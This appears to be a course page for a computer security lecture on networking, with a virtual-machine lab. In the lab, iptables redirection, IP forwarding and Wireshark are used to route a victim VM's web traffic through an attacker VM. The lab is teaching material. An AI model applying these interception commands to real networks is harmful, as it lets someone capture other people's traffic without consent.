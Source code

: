 ```yaml
---
layout: default
course_number: CS497
title: "Lecture 5: Computer Networking"
---
```


# Lecture 5

- Network Security
- Basic Internet technology
- TCP/IP
- Network models and ARP security
- Spoofing, sniffing, session hijacking
- Denial-of-service botnets

### Reading 

- Introduction to Computer Security: Chapter 5

### Slides

- [Computer Networking](Ch05-NetworkModelsARP.pdf)

### In Class Exercise 
- Startup VirtualBox and create three (3) virtual machines. 
- One is used to host applications (server) and other virtual machines are for the victim and the attacker.
- Once the network setup is done, run ```ifconfig``` on all VMs and record the IP address for each VM.
- **Normal Scenario:**
  - Create a folder in *Server* at ```~/testserver```.
  - Create a file named ```test.html``` in ```~/testterver``` with some text content.
  - Open a terminal window and change directory to ```~/testserver```, start a python SimpleHTTPServer with the following command 
  ```python -m SimpleHTTPServer```
  - Open a browser session in ```Victim’s``` VM and enter ```http://<server_ip_address>:8000/test.html``` in the URL bar.
  - Observe that we get the expected response. 
- **Victim to Attacker Link Scenario:**
  - Execute the following commands in ```Victim's``` VM
  ```
  sudo iptables -t nat -A OUTPUT -p tcp --dport 80 -j DNAT --to-destination attacker_ip_address
  sudo iptables -t nat -A OUTPUT -p tcp --dport 443 -j DNAT --to-destination attacker_ip_address
  sudo iptables -t nat -A OUTPUT -p tcp --dport 8000 -j DNAT --to-destination attacker_ip_address
  ```
  - Create a folder in *Attacker* at ```~/testserver```.
  - Create a file named ```test.html``` in ```~/testterver``` with some text content.
  - Open a terminal window and change directory to ```~/testserver```, start a python SimpleHTTPServer with the following command ```python -m SimpleHTTPServer```
  - In ```Victim’s``` VM refresh the browser and observe that we get the expected response. 
- **Attacker to Server Link Scenario:**
  - Execute the following commands in ```Attacker's``` VM
  ```
  sudo sysctl -w net.ipv4.ip_forward=1
  sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination server_ip_address
  sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j DNAT --to-destination server_ip_address
  sudo iptables -t nat -A PREROUTING -p tcp --dport 8000 -j DNAT --to-destination server_ip_address
  sudo iptables -t nat -A POSTROUTING -j MASQUERADE
  ```
  - Once above rules are in place, refresh the ```Victim’s``` browser and observe that we are getting the original response from the ```Server```. However, now all the traffic is routed through the ```Attacker’s``` network interface. 
  - Open up Wireshark in ```Attacker’s``` virtual machine (you might need to run Wireshark with sudo in order to get the interface list, if group permissions are not properly set). 
  - Select *enp0s3* as the interface and capture communication. *Interface name may vary.*
- To reset the iptables: ```sudo iptables -F```
